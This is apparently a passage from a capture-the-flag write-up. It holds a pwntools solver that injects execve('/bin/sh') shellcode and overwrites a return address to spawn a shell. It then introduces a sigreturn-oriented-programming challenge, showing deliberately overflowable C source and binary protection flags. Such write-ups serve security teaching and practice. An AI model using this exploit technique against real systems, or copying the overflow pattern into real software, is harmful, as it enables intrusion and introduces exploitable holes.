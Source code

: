 Solver :

```python
from pwn import *

context.arch='amd64'

file=ELF("main")
p=process("./main")

buf=int(p.recvline(),16)-0x188
log.info(hex(buf))
shellcode=asm('''
            xor rsi,rsi
            xor rdx,rdx
            mov al,0x3b
            lea rdi,[rsp-0x70+0x47]
            xor BYTE PTR [rdi],0x61
            lea rdi,[rsp-0x70+0x40]
            syscall
              ''').ljust(0x40,b"c")+b"/bin/sha"  # the xor line replaces the 'a' in /bin/sha iwith null byte as we are not allowed to write it

p.send(shellcode.ljust(92,b"a"))
p.send(p8(0x68))   # this goes into the counter so next time we write , we write at offset 0x68 which is the offset of return address
p.sendline(p64(buf))
p.interactive()
```

---

# SuperRapperOPeration

tldr : srop challenge , syscall gadget was given , no other useful gadget tho

you can read about the technique [here](https://sharkmoos.medium.com/a-quick-demonstration-of-sigreturn-oriented-programming-d9ae98c3ab0e)

```C
int main(){
    setup();
    alarm(60);
    char buff[0x100];
    read(0,buff,0x110);
    return 0;
}
```

```bash
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
